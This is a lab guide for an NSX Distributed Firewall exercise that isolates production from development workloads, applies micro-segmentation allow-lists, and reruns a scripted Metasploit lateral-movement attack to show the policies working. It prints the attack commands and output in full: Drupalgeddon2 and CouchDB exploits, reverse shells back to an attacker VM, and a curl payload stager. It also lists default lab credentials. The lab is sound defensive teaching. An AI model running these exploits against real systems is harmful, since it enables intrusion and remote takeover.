


## 10. Segmenting the Environment
**Estimated Time to Complete: 60 minutes**

In this optional exercise, we will leverage the **Distributed Firewall** in order to limit the attack surface. 
First, we will apply a **Macro-segmentation** policy which will isolate our **Production** environment and the applications deployed in it from the **Development** environment. 
Then, we will implement a **Micro-segmentation** policy, which will employ an **allow-list** to only allow the flows required for our applications to function and block everything else.

**IMPORTANT**: Prior to this exercise, change the **Mode** for both the **App-Tier** and **Web-Tier** IDS/IPS policy back to **Detect Only**.  

**Macro-Segmentation: Isolating the Production and Development environnments**

The goal of this exercise is to completley isolate workloads deployed in **Production** from workloads deployed in **Development**. All nested workloads were previously tagged to identify which of these environments they were deployed in, and earlier in this lab, you created groups for **Production Applications** and **Development Applications** respecively. In the next few steps, you will create the appropriate firewall rules to achieve this, and then run through the **lateral movement** attack scenario again to see how lateral movement has now been limited to a particular environment.

***Create a Distributed Firewall Environment Category Policy***
1. In the NSX Manager UI, navigate to Security -->  Distributed Firewall
2. Click on the **Environments(0)** Category tab.
3. Click **ADD POLICY**
4. Click **New Policy** and change the name of the policy to **Environment Isolation**
5. Check the checkbox next to the **Environment Isolation** Policy
6. Click **ADD RULE** twice, and configure the cnew new rules as per below setps
7. Rule 1
    * Name: **Isolate Production-Development**
    * Source: **Production Applications** 
    * Destination: **Development Applications** 
    * Services: **ANY** 
    * Profiles: **NONE** 
    * Applied To: **Production Applications** , **Development Applications** 
    * Action: **Drop**
8. Rule 2
    * Name: **Isolate Development-Production**
    * Source: **Development Applications** 
    * Destination: **Production Applications**  
    * Services: **ANY** 
    * Profiles: **NONE** 
    * Applied To: **Production Applications** , **Development Applications** 
    * Action: **Drop**


9. Click **Publish** to publish these rules to the **Distributed Firewall**.

***Open a SSH/Console session to the External VM***
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

***Run through the the lateral attack scenario (again)***

In order to reduce the time needed for this, you can run the **attack2** script from the **external VM** which will initiate the complete lateral attack scenario without needing any manual metasploit steps. If you prefer, you can also manually go though these steps (See the chapter on Lateral Movement Scenario)

1. If you have not previously used this script, you will need to modify it to reflect your environment. Type **sudo nano attack2.rc** and replace the **RHOST** and **LHOST** IP addresses accordingly to match with the IP addresses in your environment. 
    * **RHOST** on line 3 should be the IP address of the App1-WEB-TIER VM 
    * **SUBNET** on line 6 (route add) should be the Internal Network subnet 
    * **LHOST** on line 9 should be the IP address of the External VM (this local machine) 
    * **RHOST** on line 10 should be the IP address of the App1-APP-TIER VM 
    * **RHOST** on line 13 should be the IP address of the App2-APP-TIER VM
2. Type **CTRL-O** and confirm to save your changes, then **CTRL-X** to exit **Nano**.
3. Type **sudo ./attack2.sh** to run the attack scenario

> **Note**: This scripted attack does not upgrade shell sessions to meterpreter sessions nor does it interact with the sessions. To interact with the established sessions, but it will cause the same signatures to fire on the NSX IDS/IPS.

```console

vmware@ubuntu:~$ sudo ./attack2.sh
[sudo] password for vmware:
[*] Starting thE Metasploit Framework console...\

Call trans opt: received. 2-19-98 13:24:18 REC:Loc

     Trace program: running

           wake up, Neo...
        the matrix has you
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


       =[ metasploit v5.0.95-dev                          ]
+ -- --=[ 2038 exploits - 1103 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Search can apply complex filters such as search cve:2009 type:ex                                                                                                                     ploit, see all the filters with help search

[*] Processing attack2.rc for ERB directives.
resource (attack2.rc)> use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (attack2.rc)> set RHOST 192.168.10.101
RHOST => 192.168.10.101
resource (attack2.rc)> set RPORT 8080
RPORT => 8080
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Sending stage (38288 bytes) to 192.168.10.101
[*] Meterpreter session 1 opened (10.114.209.151:4444 -> 192.168.10.101:36632) a                                                                                                                     t 2020-08-18 09:23:54 -0500
[*] Session 1 created in the background.
resource (attack2.rc)> route add 192.168.20.0/24 1
[*] Route added
resource (attack2.rc)> use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
resource (attack2.rc)> set LPORT 4445
LPORT => 4445
resource (attack2.rc)> set LHOST 10.114.209.151
LHOST => 10.114.209.151
resource (attack2.rc)> set RHOST 192.168.20.100
RHOST => 192.168.20.100
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4445
[*] Generating curl command stager
[*] Using URL: http://0.0.0.0:8080/4u4h7sj6qJrKq
[*] Local IP: http://10.114.209.151:8080/4u4h7sj6qJrKq
[*] 192.168.20.100:5984 - The 1 time to exploit
[*] Client 10.114.209.148 (curl/7.38.0) requested /4u4h7sj6qJrKq
[*] Sending payload to 10.114.209.148 (curl/7.38.0)
[*] Command shell session 2 opened (10.114.209.151:4445 -> 10.114.209.148:20667)                                                                                                                      at 2020-08-18 09:24:20 -0500
[+] Deleted /tmp/zzdlnybu
[+] Deleted /tmp/ltvyozbf
[*] Server stopped.
[*] Session 2 created in the background.
resource (attack2.rc)> set LPORT 4446
LPORT => 4446
resource (attack2.rc)> set RHOST 192.168.20.101
RHOST => 192.168.20.101
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4446
[-] Exploit aborted due to failure: unknown: Something went horribly wrong and w                                                                                                                     e couldn't continue to exploit.
[*] Exploit completed, but no session was created.
```

4. Type **sessions -l** to confirm that this time, although the script tried to exploit the **APP1-WEB-TIER** then laterally move to **APP1-APP-TIER** and then move once more to **APP2-APP-TIER** only 2 reverse shell sessions were established
    * One from the **APP1-WEB-TIER** VM
    * One from the **APP1-APP-TIER** VM 

> **Note**: The exploit of the **APP2-APP-TIER** VM failed, because the Distributed Firewall policy you just configured isolated the **APP2** workloads that are part of the **Development Applications** Group (Zone) from the **APP1** workloads which are part of the **Production Applications** Group (Zone).

```console
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                   Connection
  --  ----  ----                   -----------                   ----------
  1         meterpreter php/linux  www-data (33) @ 273e1700c5be  10.114.209.151:4444 -> 192.168.10.101:36632 (192.168.10.101)
  2         shell x64/linux                                      10.114.209.151:4445 -> 10.114.209.148:20667 (192.168.20.100)
```

***Confirm IDS/IPS Events show up in the NSX Manager UI***
1.	In the NSX Manager UI, navigate to Security --> East West Security --> Distributed IDS
2. Confirm 3 signatures have fired:
4. Confirm 3 signatures have fired:
    * Signature for **DrupalGeddon2**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Remote Code execution via a PHP script**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Apache CouchDB Remote Privilege Escalation**, with **APP-1-APP-TIER** as Affected VM
    
    
  
  > **Note**: Because the distributed firewall has isolated production from development workloads, we do not see  the exploit attempt of the **APP2-APP-TIER** VM.

This completes the Macro-segmentation exercise. Before moving to the next exercise, folow [these instructions](ClearingIDSEvents.md) to clear the IDS events from NSX Manager

**Micro-Segmentation: Implementing a zero-trust network architecture for your applications**

Now that we have isolated production from development workloads, we will micro-segment both of our applications by configuring an **allow-list** policty which explicitely only allows the flows required for our applications to fuction and blocks anything else. As a result, we will not only prevent lateral movement, but also prevent any reverse shell from being established. 

***Create Granular Groups***
1.	In the NSX Manager UI, navigate to Inventory -->  Groups 
2. Click **ADD GROUP**
3.	Create a Group with the below parameters. Click Apply when done.
    * Name **APP1-WEB**
    * Compute Members: Membership Criteria: **Virtual Machine Tag Equals APP-1 Scope Application** AND **Virtual Machine Tag Equals Web-Tier Scope Tier**  (click the **+** icon to specify the **AND** condition between the criteria).
         
3.	Create another Group with the below parameters. Click Apply when done.
    * Name **APP1-APP**
    * Compute Members: Membership Criteria: **Virtual Machine Tag Equals APP-1 Scope Application** AND **Virtual Machine Tag Equals App-Tier Scope Tier**  (click the **+** icon to specify the **AND** condition between the criteria).
4.	Create another Group with the below parameters. Click Apply when done.
    * Name **APP2-WEB**
    * Compute Members: Membership Criteria: **Virtual Machine Tag Equals APP-2 Scope Application** AND **Virtual Machine Tag Equals Web-Tier Scope Tier**  (click the **+** icon to specify the **AND** condition between the criteria).
5.	Create another Group with the below parameters. Click Apply when done.
    * Name **APP2-APP**
    * Compute Members: Membership Criteria: **Virtual Machine Tag Equals APP-2 Scope Application** AND **Virtual Machine Tag Equals App-Tier Scope Tier**  (click the **+** icon to specify the **AND** condition between the criteria).
     
6. Confirm previously deployed VMs became a member of appropriate groups due to applied tags. Click **View Members** for the 4 groups you created and confirm
    * Members of **APP1-WEB**: **APP-1-WEB-TIER**
    * Members of **APP1-APP**: **APP-1-APP-TIER**.
    * Members of **APP2-WEB**: **APP-2-WEB-TIER**
    * Members of **APP1-WEB**: **APP-2-APP-TIER**.    

***Create a Distributed Firewall Application Category Policy***
1. In the NSX Manager UI, navigate to Security -->  Distributed Firewall
2. Click on the **Application(1)** Category tab.
3. Click **ADD POLICY**
4. Click **New Policy** and change the name of the policy to **APP1 Micro-Segmentation**
5. Check the checkbox next to the **APP1 Micro-Segmentation** Policy
6. Click **ADD RULE** twice, and configure the new new rules as per below steps
7. Rule 1
    * Name: **WEB-TIER-ACCESS**
    * Source: **Any** 
    * Destination: **APP1-WEB** 
    * Services: Click **Raw Port-Protocols** and **ADD Service Entry**. Add a new entry of Service Type **TCP** and Destination Port **8080** (The Drupal service listens on this port)
    * Profiles: **HTTP** (This is a Layer-7 App-ID) 
    * Applied To: **APP1-WEB** 
    * Action: **Allow**
8. Rule 2
    * Name: **APP-TIER-ACCESS**
    * Source: **APP1-WEB**
    * Destination: **APP1-APP** 
    * Services: Click **Raw Port-Protocols** and **ADD Service Entry**. Add a new entry of Service Type **TCP** and Destination Port **5984** (The CouchDB service listens on this port)
    * Applied To: **APP1-WEB** , **APP1-APP** 
    * Action: **Allow**
3. Now that we micro-segmented APP1, let's do the same for APP2. Click **ADD POLICY**
4. Click **New Policy** and change the name of the policy to **APP2 Micro-Segmentation**
5. Check the checkbox next to the **APP2 Micro-Segmentation** Policy
6. Click **ADD RULE** twice, and configure the new new rules as per below steps
7. Rule 1
    * Name: **WEB-TIER-ACCESS**
    * Source: **Any** 
    * Destination: **APP2-WEB** 
    * Services: Click **Raw Port-Protocols** and **ADD Service Entry**. Add a new entry of Service Type **TCP** and Destination Port **8080** (The Drupal service listens on this port)
    * Profiles: **HTTP** (This is a Layer-7 App-ID) 
    * Applied To: **APP2-WEB** 
    * Action: **Allow**
8. Rule 2
    * Name: **APP-TIER-ACCESS**
    * Source: **APP2-WEB**
    * Destination: **APP2-APP** 
    * Services: Click **Raw Port-Protocols** and **ADD Service Entry**. Add a new entry of Service Type **TCP** and Destination Port **5984** (The CouchDB service listens on this port)
    * Applied To: **APP2-WEB** , **APP2-APP** 
    * Action: **Allow**
9. We now have configured the appropriate allow-list policy for APP1 and APP2. Now we can change the default Distributed Firewall action from **Allow** to **Drop** in order to block all traffic except for the traffic we just allowed for our applications to function. 
10. Click the down arrow next to the **Default Layer3 Section** Policy and change the action of the **Default Layer 3 rule** from **Allow** to **Drop**
11. Click **PUBLISH** to save and publish your changes.

  

***Open a SSH/Console session to the External VM***
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

***Run through the the lateral attack scenario (again)***

In order to reduce the time needed for this, you can run the **attack2** script from the **external VM** which will initiate the complete lateral attack scenario without needing any manual metasploit steps. If you prefer, you can also manually go though these steps (See the chapter on Lateral Movement Scenario)

1. Type **sudo ./attack2.sh** to run the attack scenario

```console
vmware@ubuntu:~$ ./attack2.sh
[sudo] password for vmware:


Unable to handle kernel NULL pointer dereference at virtual address 0xd34db33f
EFLAGS: 00010046
eax: 00000001 ebx: f77c8c00 ecx: 00000000 edx: f77f0001
esi: 803bf014 edi: 8023c755 ebp: 80237f84 esp: 80237f60
ds: 0018   es: 0018  ss: 0018
Process Swapper (Pid: 0, process nr: 0, stackpage=80377000)


Stack: 90909090990909090990909090
       90909090990909090990909090
       90909090.90909090.90909090
       90909090.90909090.90909090
       90909090.90909090.09090900
       90909090.90909090.09090900
       ..........................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ccccccccc.................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       .................ccccccccc
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ..........................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffff..................
       ffffffff..................


Code: 00 00 00 00 M3 T4 SP L0 1T FR 4M 3W OR K! V3 R5 I0 N5 00 00 00 00
Aiee, Killing Interrupt handler
Kernel panic: Attempted to kill the idle task!
In swapper task - not syncing


       =[ metasploit v5.0.95-dev                          ]
+ -- --=[ 2038 exploits - 1103 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

[*] Processing attack2.rc for ERB directives.
resource (attack2.rc)> use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (attack2.rc)> set RHOST 192.168.10.101
RHOST => 192.168.10.101
resource (attack2.rc)> set RPORT 8080
RPORT => 8080
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Exploit completed, but no session was created.
resource (attack2.rc)> route add 192.168.20.0/24 1
[-] Not a session: 1
resource (attack2.rc)> use exploit/linux/http/apache_couchdb_cmd_exec
[*] Using configured payload linux/x64/shell_reverse_tcp
resource (attack2.rc)> set LPORT 4445
LPORT => 4445
resource (attack2.rc)> set LHOST 10.114.209.151
LHOST => 10.114.209.151
resource (attack2.rc)> set RHOST 192.168.20.100
RHOST => 192.168.20.100
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4445
[-] Exploit aborted due to failure: unknown: Something went horribly wrong and we couldn't continue to exploit.
[*] Exploit completed, but no session was created.
resource (attack2.rc)> set LPORT 4446
LPORT => 4446
resource (attack2.rc)> set RHOST 192.168.20.101
RHOST => 192.168.20.101
resource (attack2.rc)> exploit -z
[*] Started reverse TCP handler on 10.114.209.151:4446
[-] Exploit aborted due to failure: unknown: Something went horribly wrong and we couldn't continue to exploit.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/http/apache_couchdb_cmd_exec) >
```

2. Type **sessions -l** to confirm that this time no reverse shell sessions were established. 

```console
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > sessions -l

Active sessions
===============

No active sessions.
```
> **Note**: The micro-segmentation policy applies allows the applictions to function but reduces the attack surface by preventing any communication to a service that is not explicitely allowed. 

***Confirm IDS/IPS Events show up in the NSX Manager UI***
1.	In the NSX Manager UI, navigate to Security --> East West Security --> Distributed IDS
2. Confirm 2 signatures have fired:
    * Signature for **DrupalGeddon2**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Remote Code execution via a PHP script**, with **APP-1-WEB-TIER** as Affected VM

  
  
  > **Note**: While the initial DrupalGeddon exploit has completed, the distributed firewall has prevented the reverse shell from being established from APP-1-WEB-TIER. As a result, the attacker is unable to move laterally in the environment. In addition, you can enable a **detect & prevent** policy once again to ensure the initial exploit is prevented.

This completes the NSX Distributed IDS/IPS Evaluation and Optional exercises. 

---

[***Next Step: 11. Conclusion***](11-Conclusion.md)
